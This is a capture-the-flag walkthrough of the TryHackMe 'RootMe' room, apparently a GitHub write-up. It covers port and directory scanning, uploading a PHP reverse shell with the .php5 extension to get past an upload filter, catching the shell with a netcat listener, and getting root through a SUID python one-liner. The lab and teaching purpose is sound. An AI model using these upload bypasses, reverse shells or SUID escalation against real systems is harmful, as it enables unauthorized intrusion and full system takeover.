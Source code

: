 # Tryhackme - [RootMe](https://tryhackme.com/room/rrootme) 
**Description** | A ctf for beginners, can you root me?
 --    | --
**Difficulty** | easy
## nmap scan
```bash
$ nmap -sV  10.10.123.179
  Nmap scan report for 10.10.123.179
  Host is up (0.11s latency).
  Not shown: 998 closed tcp ports (reset)
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> **Notes:** SSH and HTTP are open. I started with the web service because it often provides useful attack paths.


## HTTP
Visit: `http://10.10.123.179`
![alt txet](https://github.com/user-attachments/assets/79162dad-117b-4ab2-950d-111f4a36f747)

## Gobuster

Let's enumerate common directories:
```bash
$ gobuster dir -u http://10.10.123.179 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.                    (Status: 200) [Size: 616]
/.hta                 (Status: 403) [Size: 276]
/.hta.                (Status: 403) [Size: 276]
/.htaccess.           (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/.hta.txt             (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htpasswd.txt        (Status: 403) [Size: 276]
/.htpasswd.           (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.123.179/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 307] [--> http://10.10.123.179/js/]
/panel                (Status: 301) [Size: 310] [--> http://10.10.123.179/panel/]
/server-status        (Status: 403) [Size: 276]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.123.179/uploads/]
```
> Notes: /panel and /uploads look interesting
## /panel Directory

![alt text](https://github.com/user-attachments/assets/4016356e-ea7a-46cd-beff-98b129749aa2)

### We can uplosd files here. Let's upload a web-shell to get a shell.

you can use this php reverse shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
### File upload: failed attempt then success
  ### 1. First attempt — upload .php web-shell

![alt text](https://github.com/user-attachments/assets/7e1f6514-0c75-4a63-bf98-11c06715efe3)

I tried uploading a standard PHP reverse shell file with a .php extension. Upload was rejected by the server.
         The server likely blocks .php uploads (extension filtering) or checks MIME/type.
     
 #### 2. Second attempt — change extension to
![alt text](https://github.com/user-attachments/assets/c2960494-7412-4211-a981-891a5846ead8)

I renamed the file to shell.php5 and uploaded again. Upload succeeded and the file was accessible/executable. Why this worked: Some servers accept alternative PHP extensions (e.g., .php5, .phtml) or have a whitelist of allowed extensions. In this case .php5 was treated as executable by the server while .php was filtered.

## /uploads Directory

![alt text](https://github.com/user-attachments/assets/5fa06fee-10f1-4e75-86c9-ad7e2766f07e)

Start a netcat listener from your attack machine.

```bash
$ nc -lvnp 1234
```
Visit the uploaded PHP URL `http://10.10.123.179/uploads/php-reverse-shell.php5` to trigger the reverse shell.
![alt text](https://github.com/user-attachments/assets/514e04dc-e33f-4758-883a-887dcb79be50)

## User flag

know let's search for user.txt flag
```bash
$ find -type f -name 'user.txt' 2>/def/null
/var/www/user.txt
```
![alt text](https://github.com/user-attachments/assets/57d9b7d5-6d40-4a0c-9c89-402657eceea6)

## PRIVILEGE ESCALATION
First we need to search for SUID permissions to escalate our privileges.

```bash
$ find -type f -perm -4000 2>/dev/null
```
![alt text](https://github.com/user-attachments/assets/4204c297-7d2f-4ba9-b9b8-8c616c4c5f2f)

A SUID binary (e.g., python) was discovered.

### Exploiting SUID python (GTFOBins method)
I looked up [GTFoBins](https://gtfobins.github.io/gtfobins/python/#suid) for `Python` SUID techniques and used the following:

```bash
bash-5.0$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
# whoami
root
```
![alt text](https://github.com/user-attachments/assets/ea1cf006-5fde-4b50-8faa-74df105dec72)

**Explanation:** Executing the SUID python binary allowed spawning a shell with the effective UID of the binary owner (root). Using os.execl("/bin/sh", "sh", "-p") preserves the elevated privileges and spawns a root shell.

